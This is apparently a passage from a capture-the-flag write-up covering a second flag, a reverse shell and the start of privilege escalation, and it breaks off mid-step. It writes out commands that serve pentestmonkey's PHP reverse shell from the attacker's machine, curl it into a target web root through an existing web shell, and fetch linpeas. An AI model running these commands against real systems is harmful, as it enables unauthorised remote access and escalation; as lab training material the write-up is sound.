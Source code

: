 ![image](https://user-images.githubusercontent.com/53917092/97318439-a46a2b80-184a-11eb-9df8-82fff35be882.png)

it works

### Second flag

![image](https://user-images.githubusercontent.com/53917092/97318748-f1e69880-184a-11eb-90b4-52143880ef9b.png)

## Reverse Shell

we will use php-reverse-shell from pentest monkey

so

in our machine:

installing the rev shell

> wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

(use nano or vim to change the ip and port)

> sudo python3 -m http.server 80

![image](https://user-images.githubusercontent.com/53917092/97321361-8d790880-184d-11eb-8a27-d7ac6b96b77d.png)

in the web shell :

> curl <YOUR IP>/php-reverse-shell.php -o /var/www/html/shell.php

![image](https://user-images.githubusercontent.com/53917092/97321494-b13c4e80-184d-11eb-9a66-35f1a8faf2b9.png)

and now is just enter in:

<BOX IP>/shell.php

![image](https://user-images.githubusercontent.com/53917092/97321555-c618e200-184d-11eb-83f0-f2d3f3342253.png)

![image](https://user-images.githubusercontent.com/53917092/97321608-d3ce6780-184d-11eb-8f7e-4fe4b0b57f3c.png)

## Privilege Escalation

> cd /tmp/

installing linpeas

in our machine:

installing the linpeas

> wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

> sudo python3 -m http.server 80

in the reverse shell:
